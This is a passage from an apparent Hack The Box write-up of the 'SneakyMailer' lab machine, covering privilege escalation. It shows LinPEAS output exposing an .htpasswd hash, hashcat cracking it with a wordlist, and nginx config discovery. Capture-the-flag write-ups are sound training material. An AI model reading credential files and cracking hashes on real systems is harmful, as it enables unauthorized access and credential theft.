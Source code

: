 And a shell spawned. It's time to escalate my privileges.

# Privilege Escalation

---

## www-data → low

---

I run LinPEAS and found this password hash:

```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)                                                                                                                                                                    
-rw-r--r-- 1 root root 43 May 15  2020 /var/www/pypi.sneakycorp.htb/.htpasswd                                                                                                                                       
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

I can crack that hash with hashcat on my local machine:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ hashcat -m 1600 pypi-hash /usr/share/wordlists/rockyou.txt
---snip---
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
```

There is the password `soufianeelhaoui`. I need to find where PyPI is running. It might run on the nginx server:

```bash
www-data@sneakymailer:/etc/nginx/sites-enabled$ ls 
pypi.sneakycorp.htb  sneakycorp.htb
```

Let's check out pypi.sneakycorp.htb:

```bash
server {
        listen 0.0.0.0:8080 default_server;
        listen [::]:8080 default_server;
        server_name _;
}

server {
        listen 0.0.0.0:8080;
        listen [::]:8080;

        server_name pypi.sneakycorp.htb;

        location / {
                proxy_pass http://127.0.0.1:5000;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
        }
}
```

